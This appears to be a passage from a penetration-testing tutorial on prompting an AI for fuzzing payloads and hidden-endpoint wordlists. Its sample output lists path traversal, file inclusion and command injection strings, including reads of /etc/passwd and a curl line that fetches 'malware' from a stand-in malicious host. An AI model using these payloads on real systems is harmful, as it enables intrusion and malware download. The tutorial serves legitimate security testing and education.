 Fuzzing in penetration testing is a technique used to identify vulnerabilities by providing unexpected, invalid, or random data as input to a system. The goal is to observe how the application responds—whether it crashes, behaves unpredictably, or reveals security flaws like injection points. It’s a powerful method to uncover hidden issues in input validation and error handling.

Fuzzing is crucial for discovering input validation issues, but manually creating payloads? That’s the kind of monotony we’d gladly offload.

**Prompt to AI:**
```
Generate a list of fuzzing payloads to test for server-side path traversal, file inclusion, and command injection vulnerabilities. Ensure the payloads target potential misconfigurations or improper input handling in web applications.
```

**Example Output:**
```plaintext
Path Traversal Payloads:
- ../../etc/passwd
- ..\\..\\boot.ini
- /../../../var/log/auth.log
- %2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd

File Inclusion Payloads:
- php://filter/resource=index.php
- /proc/self/environ
- /var/www/html/config.php
- ../../../../usr/local/apache2/conf/httpd.conf

Command Injection Payloads:
- ; cat /etc/passwd
- | whoami
- `id`
- && ls -la
- | curl http://malicious-site.com -o /tmp/malware
```

Input these payloads into form fields or parameters while testing. Combine them with automation tools like Burp Intruder to target multiple inputs.

## 2. Enumerating Hidden Endpoints

Enumerating hidden endpoints involves identifying unlisted or obscure URLs, API endpoints, or directories within a web application. These endpoints may not be directly visible in the UI but could expose sensitive information, administrative functions, or unprotected resources. This process typically uses automated tools or crafted wordlists to discover these hidden assets, helping to uncover security flaws like insecure access controls or exposed backups.

**Prompt to AI:**
```
Based on a web app for online shopping, generate a wordlist of hidden endpoints, admin panels, and sensitive files.
```

**Example Output:**
```plaintext
- /admin
- /checkout
- /user/settings
- /backup.zip
- /api/v1/orders
- /.git/
```
